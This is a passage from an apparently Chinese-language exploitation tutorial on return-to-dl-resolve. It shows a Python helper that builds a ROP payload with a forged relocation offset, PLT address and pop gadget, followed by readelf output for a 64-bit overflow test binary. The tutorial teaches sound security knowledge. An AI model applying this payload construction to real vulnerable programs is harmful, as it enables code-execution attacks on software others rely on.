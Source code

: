其次便是函数`dl_resolve_call`了。其定义如下：

{% highlight python %}
    def dl_resolve_call(self, base, *args):
        jmprel = self.dynamic('JMPREL')
        relent = self.dynamic('RELENT')

        addr_reloc, padlen_reloc = self.align(base, jmprel, relent)
        reloc_offset = addr_reloc - jmprel

        buf = self.p(self.plt())
        buf += self.p(reloc_offset)
        buf += self.p(self.gadget('pop', n=len(args)))
        buf += self.p(args)

        return buf
{% endhighlight %}

可以看到，这里将所调用的函数的参数及返回的gadget放在栈上，再往上便是构造的伪`Elf32_Rel`条目的offset，最后则是`.plt`起始处的地址，在那里会完成将`link_map`放至栈上及调用`_dl_runtime_resolve`。

## 64位环境下return to dl-resolve

相比32位，其实基本原理还是相同的。只是由于位数增加，一些结构体发生变化；此外，函数参数也变成由寄存器传递而非栈传递。

具体地，我们看64位relocation entry的定义。首先通过`$ readelf -d`可知，现在的类型为`RELA`，大小`RELAENT`为24 bytes：

{% highlight bash %}
$ readelf -d bof64

Dynamic section at offset 0x7b0 contains 24 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000000c (INIT)               0x4003e0
 0x000000000000000d (FINI)               0x400634
 0x0000000000000019 (INIT_ARRAY)         0x600798
 0x000000000000001b (INIT_ARRAYSZ)       8 (bytes)
 0x000000000000001a (FINI_ARRAY)         0x6007a0
 0x000000000000001c (FINI_ARRAYSZ)       8 (bytes)
 0x000000006ffffef5 (GNU_HASH)           0x400260
 0x0000000000000005 (STRTAB)             0x4002f8
 0x0000000000000006 (SYMTAB)             0x400280
 0x000000000000000a (STRSZ)              67 (bytes)
 0x000000000000000b (SYMENT)             24 (bytes)
 0x0000000000000015 (DEBUG)              0x0
 0x0000000000000003 (PLTGOT)             0x600988
 0x0000000000000002 (PLTRELSZ)           96 (bytes)
 0x0000000000000014 (PLTREL)             RELA
 0x0000000000000017 (JMPREL)             0x400380
 0x0000000000000007 (RELA)               0x400368
 0x0000000000000008 (RELASZ)             24 (bytes)
 0x0000000000000009 (RELAENT)            24 (bytes)
 0x000000006ffffffe (VERNEED)            0x400348
 0x000000006fffffff (VERNEEDNUM)         1
 0x000000006ffffff0 (VERSYM)             0x40033c
 0x0000000000000000 (NULL)               0x0
{% endhighlight %}

